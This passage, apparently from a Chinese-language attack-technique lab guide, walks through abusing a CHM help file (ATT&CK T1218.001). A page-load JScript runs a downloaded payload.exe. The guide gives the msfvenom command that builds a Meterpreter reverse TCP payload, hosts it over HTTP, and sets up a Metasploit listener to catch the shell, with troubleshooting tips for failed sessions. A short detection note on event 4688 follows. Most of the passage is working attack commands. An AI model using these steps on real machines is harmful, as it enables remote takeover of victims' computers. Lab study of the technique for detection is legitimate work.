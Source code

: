    ```javascript
           stream.Close();
           shell.Run("C:\\Temp\\payload.exe");
       }
   }
   </script>
   </head>
   <body onload="malicious()">
   <h1>Malicious CHM</h1>
   </body>
   </html>
   ```
   - 保存为`malicious.html`。
   - 使用HTML Help Workshop编译为`T1218.001.chm`。

2. **托管Payload**：
   在攻击机上托管`payload.exe`（如通过HTTP服务器）：
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f exe -o payload.exe
   python3 -m http.server 4444
   ```

3. **配置攻击机监听**：
   ```bash
   msf5>use exploit/multi/handler
   msf5 exploit(multi/handler)>set payload windows/meterpreter/reverse_tcp
   msf5 exploit(multi/handler)>set LHOST 192.168.126.146
   msf5 exploit(multi/handler)>set LPORT 4444
   msf5 exploit(multi/handler)>set AutoRunScript migrate -f
   msf5 exploit(multi/handler)>exploit
   ```

4. **靶机执行Payload**：
   将`T1218.001.chm`传输到靶机（如`C:\Users\zhuli\Desktop\`），执行：
   ```cmd
   hh.exe C:\Users\zhuli\Desktop\T1218.001.chm
   ```
   或双击`T1218.001.chm`。

5. **结果分析**：
   - CHM文件加载时，JScript下载并执行`payload.exe`，触发反弹Shell。
   - 若未获得会话，检查：
     - 防火墙是否阻止HTTP请求或TCP连接。
     - CHM文件中的脚本是否被IE安全设置阻止。
     - 系统是否启用了ActiveX限制。

## 测试留痕

### Windows安全日志
- 事件ID 4688：
  ```
  进程信息:
    新进程名称:C:\Windows\hh.exe
    命令行:hh.exe C:\Users\zhuli\Desktop\T1218.001.chm
    创建者进程名称:C:\Windows\System32\cmd.exe
  ```
